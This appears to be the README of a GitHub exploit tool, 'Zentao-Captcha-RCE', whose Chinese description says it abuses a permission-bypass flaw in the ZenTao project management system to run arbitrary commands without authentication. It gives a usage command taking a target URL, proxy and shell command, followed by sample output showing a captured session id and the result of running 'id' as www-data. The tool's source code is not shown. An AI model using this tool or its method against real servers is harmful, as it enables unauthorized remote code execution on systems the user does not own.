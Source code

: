 # Zentao-Captcha-RCE

> 禅道研发项目管理软件是国产的开源项目管理软件，专注研发项目管理，内置需求管理、任务管理、bug管理、缺陷管理、用例管理、计划发布等功能，实现了软件的完整生命周期管理。该漏洞是由于禅道项目管理系统权限认证存在缺陷导致，攻击者可利用该漏洞在未授权的情况下，通过权限绕过在服务器执行任意命令。

## USE

```bash
go run main.go -p http://127.0.0.1:8080 -c id -u http://example.com
```

```

####### #######  #####                                           ######   #####  #######
     #     #    #     #   ##   #####  #####  ####  #    #   ##   #     # #     # #
    #      #    #        #  #  #    #   #   #    # #    #  #  #  #     # #       #
   #       #    #       #    # #    #   #   #      ###### #    # ######  #       #####
  #        #    #       ###### #####    #   #      #    # ###### #   #   #       #
 #         #    #     # #    # #        #   #    # #    # #    # #    #  #     # #
#######    #     #####  #    # #        #    ####  #    # #    # #     #  #####  #######

[INFO] Target URL: http://example.com
[INFO] Proxy: http://127.0.0.1:8080
[INFO] Zentao Web根路径: http://example.com
[INFO] requestType: PATH_INFO
[INFO] zentaosid: 4cc98u18fevc4a8kbsmrjv9dlq
[INFO] repoID: 30
[INFO] Command: id
[INFO] 命令执行结果: uid=33(www-data)
```

